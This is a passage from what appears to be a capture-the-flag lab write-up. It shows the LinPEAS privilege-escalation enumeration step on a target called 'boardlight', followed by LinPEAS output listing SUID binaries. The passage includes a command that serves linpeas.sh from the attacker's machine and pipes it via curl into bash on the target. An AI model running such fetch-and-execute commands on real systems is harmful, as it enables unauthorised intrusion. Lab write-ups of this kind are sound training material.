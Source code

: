 ### 7. LinPEAS
*We run the LinPEAS script to identify potential privilege escalation vectors:*

> [!NOTE]
> 
> **Linpeas**  is a script that helps **identify potential security weaknesses** in a **Linux** environment. It checks for various **misconfigurations, file permissions, and other vulnerabilities** that could be exploited to gain **elevated privileges.**

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine
								
root@kali~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:39:54] "GET /linpeas.sh HTTP/1.1" 200 -

--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine
								
larissa@boardlight:~$ curl http://10.10.14.52:8000/linpeas.sh | bash

--------------------------------------------------------------------------------------------------------------------------
```

> [!NOTE]
> 
> The command starts a simple HTTP server, serving files from the current directory on port 8000 .
> The command utilizes Python's built-in HTTP server functionality, which allows us to host files easily.
> The curl command fetches the script from our specified URL, piping its contents directly into bash for execution

```console
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions
╠══════════════════════
╚════════════════════════════════════╝
[...]
-rwsr-sr-x 1 root root 15K Apr 8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
binary!)
[...]
```
